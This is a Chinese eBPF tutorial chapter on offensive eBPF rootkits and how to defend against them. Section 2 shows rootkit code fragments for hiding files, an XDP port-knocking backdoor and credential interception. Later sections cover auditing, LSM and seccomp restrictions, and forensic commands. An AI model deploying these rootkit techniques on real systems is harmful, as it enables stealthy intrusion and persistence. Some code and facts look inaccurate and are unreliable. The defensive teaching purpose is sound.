








> [!info] eBPF 2026 深度探索系列 0. [[2026-04-08-ebpf-comprehensive-learning-roadmap|全栈学习路径总览]]
>
> 1. [[ch1-registers-and-instructions|第一章：寄存器与指令集]]
> 2. [[ch1-5-function-calls|第一.五章：四种函数调用与动态内存]]
> 3. [[ch1-6-the-verifier|第一.六章：验证器 (Verifier) 的底层逻辑]]
> 4. [[ch2-maps-and-communication|第二章：Map 机制与跨空间通信]]
> 5. [[ch2-5-kptr-and-ownership|第二.五章：kptr (内核指针) 与内存所有权模型]]
> 6. [[ch3-core-and-btf|第三章：CO-RE 与 BTF 的跨版本魔法]]
> 7. [[ch4-tracing-hooks-and-security|第四章：从 kprobe 到 LSM 的追踪全图景]]
> 8. [[ch7-5-uprobes-dynamic-tracing|第七.五章：uprobe 用户态动态追踪原理]]
> 9. [[ch7-6-bpftime-user-runtime|第七.六章：bpftime 与用户态 eBPF 加速]]
> 10. [[ch18-bpftime-injection-mastery|第七.七章：bpftime 自动化注入与全量监控实战]]
> 11. [[ch7-8-uprobe-selection-guide|第七.八章：uprobe 选型指南：内核态 vs 用户态]]
> 12. [[ch5-xdp-networking-performance|第五章：XDP 极致网络性能与全栈架构]]
> 13. [[ch6-tc-traffic-control|第六章：TC (Traffic Control) 流量调度艺术]]
> 14. [[ch7-security-lsm-enforcement|第七章：LSM BPF 从可观测到安全执法]]
> 15. [[ch8-advanced-tuning-and-profiling|第八章：进阶实战与内核调优]]
> 16. [[ch9-af-xdp-zero-copy|第九章：AF_XDP 零拷贝与用户态协议栈]]
> 17. [[ch10-sched-ext-custom-scheduler|第十章：sched_ext 自定义 CPU 调度器]]
> 18. [[ch11-bpf-iterators|第十一章：BPF Iterators 内核对象迭代器]]
> 19. [[ch12-kfuncs-evolution|第十二章：kfuncs 下一代内核交互标准]]
> 20. [[ch13-usdt-tracing|第十三章：USDT 用户态静态定义追踪]]
> 21. [[ch14-ai-llm-inference-monitoring|第十四章：AI 推理与大模型监控前沿]]
> 22. [[ch15-container-isolation|第十五章：无感增强容器隔离性]]
> 23. [[ch16-ebpf-and-wasm|第十六章：eBPF 与 WebAssembly (WASM) 的共生架构]]
> 24. [[ch17-storage-and-filesystem|第十七章：存储与文件系统加速]]
> 25. [[ch18-lifecycle-and-links|第十八章：生命周期管理与 BPF Links]]
> 26. [[ch19-atomic-updates-and-hot-upgrade|第十九章：程序的原子更新与蓝绿部署]]
> 27. [[ch25-5-stack-trace-correlation|第二五.五章：调用栈与业务请求的深度绑定]]
> 28. [[ch20-edge-iot-acceleration|第二十章：边缘计算与工业协议加速]]
> 29. [[ch21-debugging-and-verifier|第二十一章：调试实战与验证器 (Verifier) 诊断]]
> 30. [[ch22-testing-and-ci-cd|第二十二章：测试与持续集成 (CI/CD) 实战]]
> 31. [[ch23-security-and-permissions|第二十三章：权限细分与 BPF 安全沙箱]]
> 32. [[ch24-meta-monitoring-and-self-healing|第二十四章：eBPF 程序的内核自愈与监控]]
> 33. [[ch25-full-stack-observability|第二十五章：全栈可观测性与端到端追踪]]
> 34. [[ch26-network-security-high-level|第二十六章：网络安全防御的高阶实战]]
> 35. [[ch27-agent-engineering-architecture|第二十七章：工业级模块化 Agent 架构演进]]
> 36. **第二十八章：攻防博弈与 Rootkit 防御**
> 37. [[ch29-networking-deep-dive|第二十九章：网络应用深水区——负载均衡、Sockmap 与拥塞控制]]
> 38. [[ch30-hardware-offload|第三十章：硬件卸载与 SmartNIC 实战]]
> 39. [[ch31-signed-objects-and-security|第三十一章：内核原生签名与供应链安全]]
> 40. [[ch32-ebpf-for-windows|第三十二章：跨平台崛起——eBPF for Windows]]
> 41. [[ch32-5-macos-status|第三十二.五章：macOS 的特殊路径]]
> 42. [[ch33-serverless-optimization|第三十三章：Serverless 冷启动消除与动态计费]]
> 43. [[ch34-waf-and-rasp|第三十四章：Web 安全革命——内核态 WAF 与 RASP]]
> 44. [[ch35-npu-tpu-ai-hardware|第三十五章：AI 推理硬件 (NPU/TPU) 与硬件定义内核]]
> 45. [[ch36-dynamic-language-introspection|第三十六章：动态语言感知——业务对象的零代码提取]]
> 46. [[ch37-green-computing|第三十七章：绿色计算与能耗精准归因]]
> 47. [[ch38-ecosystem-and-career|第三十八章：2026 生态全景与工程师职业导航]]
> 48. [[ch39-rust-aya-framework|第三十九章：Rust eBPF 开发实战——Aya 框架与安全编程]]
> 49. [[ch40-network-protocols-deep-dive|第四十章：网络协议深度解析——TCP/UDP/QUIC 的 eBPF 视角]]
> 50. [[ch41-memory-safety-and-vulnerabilities|第四十一章：eBPF 内存安全与漏洞分析]]
> 51. [[ch42-service-mesh-integration|第四十二章：eBPF 与 Service Mesh 深度集成]]

---

## 1. 概述：内核中的"双刃剑"

在 2026 年，eBPF 的强大功能既是系统守护者的"盾"，也成为了顶尖攻击者的"矛"。由于 eBPF 程序具备动态注入、高性能执行且不改变内核符号等特性，它已成为新一代高级持久性威胁（APT）的首选载体。

理解 **"攻击型 eBPF (Offensive eBPF)"** 是构建现代防御体系的先决条件。

### 1.1 为什么 eBPF 成为攻击者的新宠

传统 Rootkit 的核心思路是修改内核代码或数据结构——例如通过 `/dev/mem` 直接写物理内存、劫持内核模块列表、或修改系统调用表。这些手段虽然有效，但存在明显的检测面：

| 特性     | 传统 Rootkit                    | eBPF Rootkit                         |
| -------- | ------------------------------- | ------------------------------------ |
| 加载方式 | `insmod` / 直接写内存           | `bpf()` 系统调用                     |
| 内核修改 | 修改内核代码段/数据段           | 不修改任何内核代码                   |
| 检测难度 | 可通过完整性校验发现            | 字节码通过验证器，难以区分合法与恶意 |
| 持久性   | 依赖开机启动项                  | 可通过 systemd/cron 自动加载         |
| 卸载痕迹 | `rmmod` 后可能残留              | `close(fd)` 即可，干净无痕           |
| 权限要求 | root + 可能需要关闭 Secure Boot | root + `CAP_BPF` / `CAP_SYS_ADMIN`   |

eBPF Rootkit 的核心优势在于：**它使用的是内核原生提供的合法接口**。从内核的角度来看，eBPF 程序在通过验证器检查后就是"合法代码"，传统的基于签名的检测方法完全失效。

### 1.2 攻击链全景



---

## 2. 攻击手段：eBPF Rootkit 的隐身术

### 2.1 篡改内核执行结果 (Return Value Modification)

黑客可以利用 `fexit` 或 `bpf_override_return` 拦截系统调用并修改其返回值。

- **隐藏文件**：拦截 `getdents64`，将恶意文件的名称从返回列表中删除。
- **隐藏进程**：拦截 `/proc` 相关读取，让特定的 PID 在所有系统工具中不可见。

#### 技术原理：getdents64 劫持

`getdents64()` 是用户态程序读取目录内容的系统调用。内核将 `linux_dirent64` 结构体数组填充到用户态缓冲区中。eBPF Rootkit 通过 `fentry`/`fexit` 挂钩该系统调用，在返回前扫描缓冲区内容，将目标文件名的条目"覆盖"为下一个条目，从而从目录列表中抹除自身。

```c
// 恶意 eBPF 程序示例（仅供安全研究参考）
SEC("fentry/getdents64")
int BPF_PROG(hide_file_getdents64, struct pt_regs *regs)
{
    struct linux_dirent64 *dir;
    struct linux_dirent64 *prev = NULL;
    unsigned long offs;

    // 从寄存器中获取用户态缓冲区指针和长度
    dir = (void *)PT_REGS_PARM2_CORE(regs);
    long count = PT_REGS_PARM3_CORE(regs);

    // 遍历目录条目，查找需要隐藏的文件名
    #pragma unroll
    for (int i = 0; i < MAX_DIR_ENTRIES; i++) {
        offs = (unsigned long)dir - (unsigned long)PT_REGS_PARM2_CORE(regs);
        if (offs >= count)
            break;

        if (is_hidden_name(dir->d_name)) {
            if (prev) {
                prev->d_reclen += dir->d_reclen;
            } else {
                regs->si += dir->d_reclen;
            }
        } else {
            prev = dir;
        }
        dir = (void *)dir + dir->d_reclen;
    }
    return 0;
}
```

> [!warning] 免责声明
> 以上代码仅用于安全研究和防御目的。未经授权在他人系统上部署此类程序属于违法行为。

#### 进程隐藏的挂钩点



### 2.2 隐蔽命令与控制 (C2 Channel)

- **XDP 敲门 (Port Knocking)**：恶意 XDP 程序直接在网卡驱动层监听特定的报文特征。一旦收到"魔术包"，立即在内核态激活休眠的后门逻辑，整个过程不产生任何 Socket 连接记录。

XDP 程序运行在网卡驱动的最早阶段（even before sk_buff 分配），因此传统的网络监控工具（tcpdump、ss、netstat）完全无法看到被 XDP 程序丢弃或"吃掉"的报文。

```c
// XDP 隐蔽通道示例（安全研究用途）
SEC("xdp")
int xdp_backdoor(struct xdp_md *ctx)
{
    void *data_end = (void *)(long)ctx->data_end;
    void *data = (void *)(long)ctx->data;
    struct ethhdr *eth;
    struct iphdr *ip;
    struct udphdr *udp;

    eth = data;
    if ((void *)(eth + 1) > data_end)
        return XDP_PASS;
    if (eth->h_proto != bpf_htons(ETH_P_IP))
        return XDP_PASS;

    ip = (void *)(eth + 1);
    if ((void *)(ip + 1) > data_end)
        return XDP_PASS;
    if (ip->protocol != IPPROTO_UDP)
        return XDP_PASS;

    udp = (void *)ip + sizeof(*ip);
    if ((void *)(udp + 1) > data_end)
        return XDP_PASS;

    // 检查"魔术包"特征：特定端口 + 载荷签名
    if (udp->dest == bpf_htons(KNOCK_PORT)) {
        long key = 0, value = 1;
        bpf_map_update_elem(&backdoor_state, &key, &value, BPF_ANY);
        return XDP_DROP; // 静默丢弃，不留痕迹
    }
    return XDP_PASS;
}
```

#### C2 通道的进化

| 代际           | 技术                       | 检测难度                 | 带宽 |
| -------------- | -------------------------- | ------------------------ | ---- |
| 第一代         | 隐藏端口监听 + 反向 Shell  | 低（端口扫描可发现）     | 高   |
| 第二代         | ICMP Tunnel / DNS Tunnel   | 中（流量异常可检测）     | 中   |
| 第三代         | XDP 魔术包触发 + Map 通信  | 高（无 Socket 记录）     | 低   |
| 第四代         | eBPF-perf-event 用户态回传 | 极高（混入正常性能数据） | 中   |
| 第五代（2026） | AF_XDP 零拷贝双向通道      | 极高（绕过内核协议栈）   | 高   |

### 2.3 内核态凭证窃取

eBPF 程序可以挂钩与凭证相关的内核函数，在凭证传递过程中窃取敏感信息：

```c
// 凭证监控示例（安全研究用途）
SEC("kretprobe/commit_creds")
int BPF_PROG(cred_monitor, struct cred *new)
{
    struct event *e;
    u32 pid = bpf_get_current_pid_tgid() >> 32;

    e = bpf_ringbuf_reserve(&events, sizeof(*e), 0);
    if (!e)
        return 0;

    e->pid = pid;
    e->uid = new->uid.val;
    e->euid = new->euid.val;
    e->cap_effective = new->cap_effective;
    bpf_get_current_comm(&e->comm, sizeof(e->comm));
    bpf_ringbuf_submit(e, 0);
    return 0;
}
```

### 2.4 网络流量的隐蔽劫持

通过 TC (Traffic Control) 挂钩点，恶意 eBPF 程序可以在网络数据包经过内核协议栈时静默修改内容：

- **DNS 劫持**：拦截 DNS 查询响应，将特定域名解析到攻击者控制的 IP
- **HTTPS 中间人**：配合证书伪造，在 TC 层面重定向 TLS 连接
- **数据外泄**：将敏感数据编码后嵌入看似正常的网络流量中

---

## 3. 防御反制：如何监控"监控者"？

针对 eBPF 的攻击，2026 年的安全防御已经下沉到了元数据审计层面。

### 3.1 动态字节码审计

- **逻辑**：安全 Agent 利用 `bpf_iter` 实时导出内核中所有已加载程序的字节码。
- **分析**：通过反编译器自动扫描代码中是否包含 `bpf_override_return` 或修改敏感内存的行为。

```c
// 安全审计程序：遍历所有已加载的 BPF 程序
SEC("iter/bpf_prog")
int audit_bpf_programs(struct bpf_iter__bpf_prog *ctx)
{
    struct seq_file *seq = ctx->meta->seq;
    struct bpf_prog *prog = ctx->prog;
    if (!prog)
        return 0;

    BPF_SEQ_PRINTF(seq, "prog_id=%u type=%s tag=",
                   prog->aux->id, bpf_prog_type_str(prog->type));
    for (int i = 0; i < 8; i++)
        BPF_SEQ_PRINTF(seq, "%02x", prog->tag[i]);
    BPF_SEQ_PRINTF(seq, " jited=%d\n", prog->jited);
    return 0;
}
```

用户态安全 Agent 定期收集字节码哈希，与白名单进行比对：

```python
#!/usr/bin/env python3
"""eBPF 程序审计引擎 - 对比已加载程序与白名单"""
import subprocess, json
from dataclasses import dataclass

@dataclass
class LoadedProgram:
    prog_id: int; prog_type: str; tag: str; jited: bool

def get_loaded_programs() -> list[LoadedProgram]:
    result = subprocess.run(["bpftool", "prog", "list", "-j"],
                            capture_output=True, text=True)
    return [LoadedProgram(p["id"], p["type"], p["tag"],
            p.get("jited", False)) for p in json.loads(result.stdout)]

def audit(whitelist: dict[str, str]) -> list[dict]:
    loaded = get_loaded_programs()
    return [{"prog_id": p.prog_id, "type": p.prog_type,
             "expected": whitelist[p.prog_type], "actual": p.tag}
            for p in loaded
            if p.prog_type in whitelist and p.tag != whitelist[p.prog_type]]

WHITELIST = {"xdp": "a1b2c3d4e5f6a7b8", "cgroup_skb": "1122334455667788"}
results = audit(WHITELIST)
if results:
    print("[ALERT] 发现异常 BPF 程序：")
    for r in results:
        print(f"  ID={r['prog_id']} 类型={r['type']}")
else:
    print("[OK] 所有 BPF 程序均在白名单内")
```

### 3.2 强制二进制签名 (BPF Signing)

现代 Linux 内核引入了 **`BPF_SIGNATURE`** 机制：

- 只有经过受信任私钥签名的 `.o` 文件才能被内核加载。
- 这彻底杜绝了黑客通过临时编译脚本注入恶意 BPF 程序的可能。



### 3.3 LSM BPF 准入控制

利用 LSM BPF 程序，可以对 `bpf()` 系统调用本身实施细粒度的访问控制：

```c
// LSM BPF：限制 BPF 程序加载
SEC("lsm/bpf_prog_load")
int BPF_PROG(restrict_bpf_load, union bpf_attr *attr,
             enum bpf_prog_type type)
{
    u32 cgroup_id = bpf_get_current_cgroup_id();
    // 白名单命名空间（仅允许这些 cgroup 加载 BPF 程序）
    u32 allowed_ns[] = {1001, 1002, 2001};
    for (int i = 0; i < 3; i++) {
        if (cgroup_id == allowed_ns[i])
            return 0; // 允许
    }
    bpf_printk("bpf_prog_load denied: cgroup=%u type=%d", cgroup_id, type);
    return -EPERM;
}
```

### 3.4 内核态完整性监控



---

## 4. 攻击面分析

### 4.1 eBPF 攻击面总览



### 4.2 验证器相关的已知漏洞

验证器 (Verifier) 是 eBPF 安全模型的核心，但它本身也出现过安全漏洞：

| CVE           | 年份 | 类型                    | 影响         |
| ------------- | ---- | ----------------------- | ------------ |
| CVE-2021-3444 | 2021 | 32 位边界计算错误       | 越界读写     |
| CVE-2023-2163 | 2023 | 寄存器边界追踪不精确    | 提权         |
| CVE-2024-1086 | 2024 | nftables + BPF 混合利用 | 内核提权     |
| CVE-2025-2177 | 2025 | BPF ringbuf 溢出        | 任意代码执行 |

> [!tip] 经验教训
> 验证器并非完美的安全屏障。每次内核升级都应审查 BPF 子系统的安全补丁，并评估其对现有安全策略的影响。

### 4.3 容器逃逸风险

在 Kubernetes 等容器化环境中，eBPF 的权限模型带来了特殊的风险。即使在容器内，kprobe 也能访问宿主机内核的所有函数，这意味着容器内的 root 进程可以通过 BPF 窥探宿主机，突破了容器的命名空间隔离。

防御策略——在容器运行时中限制 BPF 系统调用：

```json
{
  "linux": {
    "seccomp": {
      "defaultAction": "SCMP_ACT_ERRNO",
      "syscalls": [
        {
          "names": ["bpf"],
          "action": "SCMP_ACT_ERRNO",
          "errno": 1,
          "comment": "Block eBPF in untrusted containers"
        }
      ]
    }
  }
}
```

---

## 5. 防御策略与最佳实践

### 5.1 纵深防御体系



### 5.2 具体防御措施

```bash
# 审计当前系统中具有 BPF 权限的进程
getfacl -p /sys/fs/bpf

# 使用 sysctl 限制非特权 BPF
sysctl -w kernel.unprivileged_bpf_disabled=1

# 限制 BPF 程序的指令数量上限
sysctl -w kernel.bpf_max_insn_limit=1000000

# 禁用 JIT 编译（增加逆向难度）
sysctl -w net.core.bpf_jit_enable=0
```

使用 auditd 监控 BPF 系统调用：

```bash
# /etc/audit/rules.d/bpf-monitor.rules
-a always,exit -F arch=b64 -S bpf -F a0=0 -F a1=5 -k bpf_prog_load
-a always,exit -F arch=b64 -S bpf -F a0=0 -F a1=0 -k bpf_map_create
```

### 5.3 取证与应急响应

当发现 eBPF Rootkit 时，应采取以下步骤：



关键取证命令：

```bash
# 导出所有 BPF 程序的字节码
for id in $(bpftool prog list -j | jq '.[].id'); do
    bpftool prog dump xlated id $id > evidence/prog_${id}.asm
done

# 导出所有 BPF Map 的内容
for id in $(bpftool map list -j | jq '.[].id'); do
    bpftool map dump id $id > evidence/map_${id}.json
done

# 记录所有附加点
bpftool net list > evidence/net_attachments.txt
ausearch -k bpf_prog_load > evidence/audit_bpf.log
```

---

## 6. 2026 年的博弈现状

这场"内核态的捉迷藏"仍在继续。

- **攻击方**：利用 `bpftime` 在用户态进行混淆，或者利用 eBPF 的混淆指令集。
- **防御方**：利用 **LSM BPF** 锁定 `bpf()` 系统调用，实施严格的准入控制。

### 6.1 攻防对抗趋势图



---

## 7. FAQ

### Q1：eBPF Rootkit 和传统 Rootkit 有什么本质区别？

**A：** 核心区别在于"是否修改内核本身"。传统 Rootkit 通过修改内核代码（如系统调用表、内核函数 prologue）或加载恶意的内核模块 (LKM) 来实现功能，这些修改可以被内核完整性检查工具（如 AIDE、IMA）检测到。而 eBPF Rootkit 使用内核原生提供的 `bpf()` 系统调用，通过验证器检查后合法地附加到内核钩子点。它不修改任何内核代码段或数据段，因此传统的完整性检查方法对它完全无效。检测 eBPF Rootkit 需要专门的方法：审计已加载 BPF 程序的字节码、监控 `bpf()` 系统调用、以及行为基线分析。

### Q2：普通 Linux 服务器如何快速检查是否被植入了 eBPF Rootkit？

**A：** 可以通过以下快速检查步骤：

1. `bpftool prog list` — 列出所有已加载的 BPF 程序，检查是否有可疑的程序类型或来源
2. `bpftool net list` — 列出所有附加到网络设备的 BPF 程序
3. `auditctl -l | grep bpf` — 检查是否有审计规则监控 BPF 操作
4. `cat /proc/kallsyms | grep bpf_prog` — 检查内核符号是否被篡改
5. `bpftool map list` — 检查是否有异常的 BPF Map（特别是 `perf_event_array` 类型，可能被用于数据外泄）

### Q3：在 Kubernetes 集群中如何防御 eBPF 攻击？

**A：** Kubernetes 环境下的防御需要多层措施：

1. **容器运行时层面**：使用 seccomp profile 禁止容器内调用 `bpf()` 系统调用
2. **节点层面**：启用 `kernel.unprivileged_bpf_disabled=1`，禁止非 root 进程加载 BPF 程序
3. **Pod Security Policy**：禁止 Pod 挂载 `/sys/fs/bpf`，限制 `CAP_BPF` 和 `CAP_SYS_ADMIN` 能力
4. **监控层面**：在节点上部署 Tetragon 或自定义 eBPF 审计程序，监控 BPF 程序的加载和附加
5. **Admission Control**：通过 OPA/Gatekeeper 策略限制可以加载 BPF 程序的 Pod

### Q4：BPF 签名验证机制是否已经进入 Linux 主线内核？

**A：** 截至 2026 年初，BPF 程序的签名验证机制已经进入主线内核。最终方案采用了灵活的信任链模型：支持多级签名（类似于代码签名证书链），企业可以部署自己的中间 CA。最初的方案是通过对 `.o` 文件进行签名，内核在 `bpf_prog_load` 时验证签名，但社区对"谁有权签名"和"密钥管理"进行了长期讨论。建议查阅最新的内核文档 (`Documentation/bpf/signing.rst`) 获取确切配置方法。

### Q5：eBPF 程序能否检测其他 eBPF 程序的行为？会不会出现"监控者被监控"的无限循环？

**A：** 理论上，一个 eBPF 程序可以监控 `bpf()` 系统调用和其他 BPF 程序的加载。但内核有机制防止无限循环：

1. **Verifier 限制**：BPF 程序不能附加到 `bpf()` 系统调用本身（因为 `bpf()` 不是可追踪的内核函数）
2. **kprobe 递归保护**：内核对 kprobe 的递归深度有严格限制（默认最多一层递归）
3. **指令数量限制**：每个 BPF 程序有最大指令数量限制（通常为 100 万条）

在实践中，安全监控程序通常使用 `kprobe` 追踪 BPF 子系统的内部函数（如 `bpf_prog_load`），而不是追踪 `bpf()` 系统调用本身。

### Q6：如果攻击者已经获得了 root 权限，BPF 签名验证还有用吗？

**A：** 如果攻击者已经拥有完整的 root 权限（特别是 `CAP_SYS_ADMIN`），BPF 签名验证的保护能力是有限的。攻击者可以编译自己的签名密钥并添加到内核信任列表中，或直接修改内核内存绕过验证。因此，BPF 签名验证的主要价值在于：防御内部威胁（防止有限权限用户加载未经审核的 BPF 程序）、确保供应链安全（只有经过审核的程序才能在生产环境运行）、以及作为纵深防御的一环增加攻击成本。

### Q7：eBPF 攻防领域的未来发展方向是什么？

**A：** 2026 年及未来，eBPF 攻防领域有几个重要趋势：

1. **AI 驱动的对抗**：攻击方使用 AI 自动生成绕过检测的字节码，防御方使用 AI 进行异常行为检测
2. **硬件辅助安全**：Intel PT、ARM SPE 等硬件追踪技术与 eBPF 结合，提供硬件级别的安全监控
3. **eBPF 沙箱化**：更细粒度的 BPF 程序沙箱，限制程序可访问的内核函数和数据
4. **跨平台攻防**：随着 eBPF for Windows 和 macOS 的成熟，攻击面扩展到所有主流操作系统
5. **零信任 BPF 架构**：每个 BPF 程序的加载都需要持续验证，运行时行为与预期不符时自动卸载

---

## 8. 总结

eBPF 的攻防史证明了：**在内核层，没有绝对的信任。** 掌握 eBPF 技术的安全工程师，必须具备"既能写出最强的盾，也能识破最隐形的矛"的跨位面能力。

本章覆盖了从攻击技术（进程隐藏、文件隐藏、C2 通道、凭证窃取、网络劫持）到防御策略（字节码审计、签名验证、LSM BPF 准入控制、完整性监控）的完整攻防知识体系。关键要点：

1. **eBPF Rootkit 使用合法接口**，传统检测方法需要专门适配
2. **纵深防御**是应对 eBPF 威胁的唯一有效策略——预防、检测、响应缺一不可
3. **容器环境**是 eBPF 攻防的重点战场，需要额外的隔离和监控措施
4. **AI 和硬件辅助**正在重塑攻防格局，安全工程师需要持续学习
5. **签名验证**是供应链安全的重要手段，但不能替代运行时监控

> [!quote] 核心原则
> "To defeat a threat, you must first understand it." — 要击败一个威胁，你必须先理解它。理解攻击型 eBPF 的技术细节，是构建有效防御体系的起点。
